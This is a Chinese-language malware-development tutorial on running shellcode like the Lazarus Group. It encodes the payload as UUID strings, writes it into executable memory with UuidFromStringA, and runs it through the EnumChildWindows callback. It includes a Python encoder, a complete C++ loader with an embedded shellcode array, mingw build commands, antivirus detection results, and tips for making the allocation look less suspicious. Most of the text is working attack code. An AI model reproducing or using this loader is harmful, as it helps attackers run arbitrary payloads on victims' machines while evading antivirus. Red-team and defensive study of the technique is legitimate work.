







\newpage
\subsection{恶意软件开发技巧：像 Lazarus Group 那样运行 shellcode（C++ 示例）}

﷽

{width="80%"}

这篇文章是我自己对另一个有趣技巧的研究结果：通过 `UuidFromStringA`、`EnumChildWindows` 等函数来运行载荷。

### UuidFromStringA

这个函数把一个字符串转换成 UUID：

```cpp
RPC_STATUS UuidFromStringA(
  RPC_CSTR StringUuid,
  UUID  *Uuid
);
```

不使用 `memcpy` 或 `WriteProcessMemory` 这类标准函数，这个函数也可以用来解码数据以及把数据写入内存。

shellcode 执行技巧由以下步骤组成：

通过 `VirtualAlloc` 分配内存

用 `UuidFromStringA` 把 UUID 字符串转换成它们的二进制格式并存入内存

用 `EnumChildWindows`（或 `EnumDesktopsA` 或其他候选函数）执行先前载入内存的载荷

### 实战示例

我们来看一个实战例子。这个技巧相当简单，与之前的技巧类似，但有一些 Lazarus Group 特有的变化。

首先，我们需要一个脚本把我们想要的载荷转换成合法的 UUID 字符串。类似于这样：

```python
#!usr/bin/python3

from uuid import UUID
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-p','--payload', required = True, help = "payload: binary file")
args = vars(parser.parse_args())
pbin = args['payload']

with open(pbin, "rb") as f:
  # read in 16 bytes from our input payload
  chunk = f.read(16)
  while chunk:
  # if the chunk is less than 16 bytes then we pad the difference (x90)
  if len(chunk) < 16:
  padding = 16 - len(chunk)
  chunk = chunk + (b"\x90" * padding)
  print(UUID(bytes_le=chunk))
  chunk = f.read(16)
```

和往常一样，我会使用我的 meow-meow 消息框载荷：`meow.bin`。

运行：

```bash
python3 payload_uuid.py -p meow.bin
```

{width="80%"}

既然我们的载荷已经是 UUID 格式，我们就能构造出概念验证代码来测试下面这个想法：

```cpp
#include <windows.h>
#include <rpc.h>
#include <iostream>

#pragma comment(lib, "Rpcrt4.lib")

const char* uuids[] = {
  "e48148fc-fff0-ffff-e8d0-000000415141",
  "56515250-3148-65d2-488b-52603e488b52",
  "8b483e18-2052-483e-8b72-503e480fb74a",
  "c9314d4a-3148-acc0-3c61-7c022c2041c1",
  "01410dc9-e2c1-52ed-4151-3e488b52203e",
  "483c428b-d001-8b3e-8088-0000004885c0",
  "01486f74-50d0-8b3e-4818-3e448b402049",
  "5ce3d001-ff48-3ec9-418b-34884801d64d",
  "3148c931-acc0-c141-c90d-4101c138e075",
  "034c3ef1-244c-4508-39d1-75d6583e448b",
  "01492440-66d0-413e-8b0c-483e448b401c",
  "3ed00149-8b41-8804-4801-d0415841585e",
  "58415a59-5941-5a41-4883-ec204152ffe0",
  "5a594158-483e-128b-e949-ffffff5d49c7",
  "000000c1-3e00-8d48-95fe-0000003e4c8d",
  "00010985-4800-c931-41ba-45835607ffd5",
  "41c93148-f0ba-a2b5-56ff-d54d656f772d",
  "776f656d-0021-5e3d-2e2e-5e3d00909090"
};

int main() {
  int elems = sizeof(uuids) / sizeof(uuids[0]);
  VOID* mem = VirtualAlloc(NULL, 0x100000, 0x00002000 | 0x00001000,
  PAGE_EXECUTE_READWRITE);
  DWORD_PTR hptr = (DWORD_PTR)mem;
  for (int i = 0; i < elems; i++) {
  // printf("[*] Allocating %d of %d uuids\n", i + 1, elems);
  // printf("%s\n", *(uuids+i));
  RPC_CSTR rcp_cstr = (RPC_CSTR)*(uuids+i);
  RPC_STATUS status = UuidFromStringA((RPC_CSTR)rcp_cstr, (UUID*)hptr);
  if (status != RPC_S_OK) {
  printf("[-] UUID convert error\n");
  CloseHandle(mem);
  return -1;
  }
  hptr += 16;
  }

  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
  // EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  CloseHandle(mem);
  return 0;

```

请注意 `UuidFromStringA` 这个函数。正如我之前所写的，用一个内存指针而不是 UUID 指针来调用这个 API，会导致给定 UUID 的二进制表示被存入内存。

通过串联许多次 API 请求并提供精心设计的 UUID，就有可能把需要的内容（载荷）载入所选的内存区域。

接着，在 `EnumChildWindows` 的回调函数指针位置，我们指定这块内存区域：

```cpp
EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
```

或者另一个函数 `EnumDesktopsA`：

```cpp
EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
```

### 演示

我们来看一切实际运行的样子。编译我们的「恶意软件」：

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -lrpcrt4
```

{width="80%"}

然后在我们的受害机器上运行：

```powershell
.\hack.exe
```

{width="80%"}

为了确认我们的载荷确实被启动了，你可以稍微改动一小段代码：

```cpp
printf("[*] Hexdump: ");
for (int i = 0; i < elems*16; i++) {
  printf("%02X ", ((unsigned char*)mem)[i]);

```

然后重新编译：

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -lrpcrt4
```

{width="80%"}

然后再次运行：

```powershell
.\hack.exe
```

{width="80%"}

我们可以看到一切都完美工作了 :)

我们把 `hack.exe` 上传到 VirusTotal：

{width="80%"}

所以，68 个 AV 引擎中有 6 个把我们的文件检测为恶意。

<https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection>

这里有一个注意事项。Lazarus Group 使用的函数是 `HeapCreate` 和 `HeapAlloc`：

```cpp
HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
void* mem = HeapAlloc(hc, 0, 0x100000);
```

`HeapAlloc` 是一个用于分配堆内存的常用 API 调用。

据我所知，这个 API 允许你在堆上分配指定大小的内存，这有别于用 `VirtualAlloc` API 获得的内存块。

不过根据文档，必要时 `HeapAlloc` 仍然可以调用 `VirtualAlloc`。

它的另一个优点是这个 API 不那么可疑。

我希望这篇文章能让蓝队意识到这项有趣的技术，同时为红队的武器库增添一件武器。

另外 Lazarus Group 还使用 `EnumSystemLocalesA` 函数来执行载荷。
